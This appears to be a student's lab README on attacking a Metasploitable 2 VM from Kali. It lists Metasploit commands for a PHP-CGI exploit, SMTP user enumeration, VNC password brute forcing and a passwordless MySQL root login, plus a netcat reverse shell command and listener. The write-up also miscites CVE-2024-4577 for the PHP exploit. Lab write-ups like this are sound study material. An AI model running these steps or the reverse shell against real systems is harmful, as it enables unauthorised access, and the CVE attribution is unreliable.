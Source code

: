 # Metasploitable-Nessus-Project
This project is about setting up a Metasploitable 2 virtual machine and a Kali Linux virtual machine in VirtualBox. Then doing some basic hacks on the Metasploitable VM. Then doing a Nessus scan to create a vulnerability report.

**Installing VirtualBox**<br>
-Make sure virtualization is enabled on your computer.<br>
-Download VirtualBox from this link: 
https://www.virtualbox.org/wiki/Downloads<br>
-Install it.<br>

**Installing Metasploitable 2**<br>
-Download Metasploitable 2 from this link: 
https://docs.rapid7.com/metasploit/metasploitable-2/<br>
-Open VirtualBox and create a new virtual machine and use the virtual machine hard disk.<br>
-Make sure it is on the same network as the machine you will run Nessus on.<br>
-Boot it up and sign in using credentials: msfadmin for the username and password.<br>
-For a walkthrough, follow this YouTube tutorial: 
https://youtu.be/1rIvnMenA2g?si=UOwItJeTInN6-GU6<br>

**Downloading Kali Linux**<br> 
-Download Kali Linux from this link: 
https://www.kali.org/get-kali/#kali-virtual-machines<br>
-Open VirtualBox and create a new virtual machine and use the .iso file.<br>
-Boot it up.<br>

**Installing Nessus**<br>
-Download Nessus from this link:
https://www.tenable.com/downloads/nessus<br>
-Confirm download integrity using checksum then install it.<br>
-Connect via SSL and get Nessus Essentials for the free version.<br>
-Create an account and activation code.<br>
-Wait until the plugins are finished before doing a scan.<br>
-For a walkthrough, follow this YouTube tutorial: 
https://youtu.be/G7e5Uw6RO_E?si=UQfBaMUNhvuEMk35<br>

**Hacks on Metasploitable VM from Kali VM**<br>
**Hack One:** I exploited CVE-2024-4577, an argument injection vulnerability in PHP, which gave me access to an Apache server which was running PHP scripts.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS OF TARGET] -sV).<br>
-Port 80, which is HTTP, is open.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Find a scanner to find what is running on HTTP and its version (grep scanner search http_version).<br>
-The results should show scanners for HTTP.<br>
-Use the listed scanner (use 0) and list the details of the scanner (show options) then configure the missing details like rhosts (set rhosts [IP ADDRESS OF TARGET]) and run the scanner (run).<br>
-The result of the scan shows the services and versions of the services running on HTTP port 80.<br>
-Then search for vulnerabilities for that version of the service and limit the search to only show vulnerabilities that have something to do with whats it running on the service (searchsploit Apache 2.2.8 | grep php).<br>
-The result of this search should be vulnerabilities on this service.<br>
-Next search through Metasploitable for any exploits for any of those vulnerabilities (grep cgi search php 5.4.2).<br>
-The result of the search should return ready-to-use exploits.
-Use it (use 1) and look at the details of the exploit (show options) and fill in any details you need like rhosts (set rhosts [IP ADDRESS OF TARGET]) and exploit it (exploit).<br>
-Confirm you are now in the target machine (sysinfo (this should return information about the target system)).<br>
<br>

**Hack Two:** I gathered a list of user accounts from an SMTP server.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS] -sV).<br>
-Port 25, which is SMTP, is open.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Pick a scanner for SMTP (grep scanner search smtp).<br>
-The results should show scanners for SMTP.<br>
-Pick the scan you want (use 25) and show the details of the scan (show options) and configure missing details need for the scan (set rhosts [IP ADDRESS OF TARGET]) and run the scan (run).<br>
-This scan will enumerate through a user list and try to verify user accounts on the SMTP server using a list that already comes with Kali and Metasploitable called USER_FILE which is found the detail when you run show options. The result of this is scan will be a list of user accounts found on the SMTP server.<br>
-Now you have a list of user accounts on the SMTP server that you can attack further.
-You can also access the SMTP server using Telnet (telnet [IP ADDRESS OF TARGET] 25) and now you are in the SMTP server.<br>
<br>

**Hack Three:** I found an account login password on a VNC server.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS] -sV).<br>
-Port 5900, which is VNC, is open.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Pick a scanner for VNC (grep scanner search vnc).<br>
-The results should show scanners for VNC.<br>
-Pick the scan you want (use 88) and show the details of the scan (show options) and configure missing details need for the scan (set rhosts [IP ADDRESS OF TARGET]) and run the scan (run).<br>
-This scan will enumerate through a password list and try to log into user accounts on the VNC server using a list that already comes with Kali and Metasploitable called PASS_FILE which is found the detail when you run show options. The details show here that there is no selected, or required, username or username list but one can be added. This scan will result in successful logins from the password list, if any.<br>
-The result of this scan found an account where the password was "password" that you can now simply log into.<br>
<br>

**Hack Four:** I logged into the root user account of a MySQL server.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS] -sV).<br>
-Port 3306, which is MySQL, is open.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Pick a scanner for MySQL (grep scanner search mysql).<br>
-The results should show scanners for VNC.<br>
-Pick the scan you want (use 18) and show the details of the scan (show options) and configure missing details need for the scan (set rhosts [IP ADDRESS OF TARGET]) and run the scan (run).<br>
-The details of this scan shows that it is going to try to find a login for a username of "root", which is a safe bet considering there is always some type of root user, but those details can be changed if so desired (set [field] [information for the field]).<br>
-The result of this scan found a root account but was unable to get the password because the length of the password was 0 characters, meaning there is no password for the root account.<br>
-Try to log into the MySQL root account of the Metasploitable server (mysql -u root -h [IP ADDRESS OF TARGET] -p) and read the error message saying "TLS/SSL error: wrong version number" meaning the version of SSL/TLS is outdated or bad for one reason or another.<br>
-Modify the MySQL command to skip SSL/TLS certification altogether (mysql -u root -h [IP ADDRESS OF TARGET] -p --skip-ssl) and want prompted for the password hit enter.<br>
-You are now in the target's MySQL account as the root user.<br>
<br>

**Hack Five:** I connected to the target machine with a bind shell and set up a reverse shell.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS] -sV).<br>
-Found a Bindshell open on port 1524.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Used netcat (ncat [IP ADDRESS OF TARGET] 1524) (could have also used telnet or ssh on port 1524 or on their own specific ports) and accessed the target machine.<br>
-You now have access to the target machine using a bind shell.<br>
<br>
The next part will be setting up a reverse shell which is used for an attacker to be able to continue to access a target machine after the initial infiltration, for persistance.<br>
<br>
-Set up a listener on your machine over any open port (nc -nvlp [PORT NUMBER]).<br> 
-Once you are already in the target machine, use netcat (or another tool like telnet or ssh) to establish a connection back to the your machine (ncat [YOUR IP ADDRESS] [SAME PORT NUMBER] -e /bin/bash).<br>
-The listener on your machine will pick up the connection and now you have an active reverse shell and can access the target machine and have the connection being established from within the target machine, which is better than a bindshell because there is no open listening port on the target machine which may look suspicous to network monitoring tools, there is no need to evade any firewall restrictions, there is no need to try to get around the target using NAT, there is no issue if the target's IP address changes, etc.<br>
<br>

-For a walkthrough on any of these hacks, follow this YouTube playlist: 
https://youtube.com/playlist?list=PLZEN0mW2CQl38fx0wtv53VEmn5CKJIrLA&si=QwL9kPkdTvL_J5a1<br>

**Nessus Scans**<br>
